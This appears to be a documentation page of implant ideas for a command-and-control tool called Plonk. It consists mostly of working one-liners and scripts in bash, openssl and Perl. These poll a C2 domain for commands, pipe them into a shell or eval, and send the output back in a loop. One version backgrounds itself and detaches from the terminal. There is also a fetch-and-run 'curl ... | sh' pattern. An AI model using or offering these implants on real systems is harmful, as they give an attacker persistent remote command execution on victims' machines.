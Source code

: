 Implant Ideas
=============
Below is a small collection of implant ideas.  They assume Plonk is listening
for queries to DOMAIN:443.  ImplantIDs are either random or hard-coded to
IMPLANTID.  There's 15 seconds between callbacks.

Shell / cURL
------------
```bash
ID="$RANDOM"; P="DOMAIN"; while :; do curl -s "https://$P/t/$ID" | /bin/sh 2>&1 | curl --data-binary @- -s "https://$P/o/$ID"; sleep 15; done
```

This is particularly noisy with `plonk -verbose`.

Shell / openssl
---------------
```bash
ID="$RANDOM" while :; do
        printf "GET /t/$ID HTTP/1.0\r\n\r\n" |
                openssl s_client -quiet -connect DOMAIN:443 2>/dev/null |
                tr -d '\r' | egrep -v '^$' | tail -n +5 |
                while read tline; do
                        O="$(echo "$tline" | (sh 2>&1))"
                        echo "POST /o/$ID HTTP/1.0\r\nContent-length: ${#O}\r\n\r\n$O" |
                                (openssl s_client -connect DOMAIN:443 >/dev/null 2>&1)
                done
        sleep 15
done
```

Self-backgrounding Shell
========================
```bash
ID="$RANDOM"         # Implant ID
CBINT=5              # Callback Interval, seconds
DOMAIN="example.com" # C2 domain

bash -c "while :; do
    curl -s 'https://$DOMAIN/t/$ID' |
    /bin/sh |
    curl --data-binary @- -s 'https://$DOMAIN/o/$ID'
    sleep '$CBINT'
done" >/dev/null 2>&1 </dev/null &
```

This is a good one to leave in `plonk.d/files` for quick and dirty
`curl${IFS}DOMAIN/f/x|sh`ish commands.

Perl
----
```perl
use LWP::Simple;for(;;){if(""eq($t=get("https://DOMAIN/t/IMPLANTID"))){sleep 15;next}else{LWP::UserAgent->new->request(HTTP::Request->new("POST","https://DOMAIN/o/IMPLANTID",[],Encode::encode("ascii",`$t 2>&1`)));}}
```
Or, to run Perl code and not shell input:
```perl
use LWP::Simple;for(;;){if(""eq($t=get("http://127.0.0.1:8080/t/kittens"))){sleep 4;next}else{LWP::UserAgent->new->request(HTTP::Request->new("POST","http://127.0.0.1:8080/o/kittens",[],Encode::encode("ascii",eval$t)));}}
```
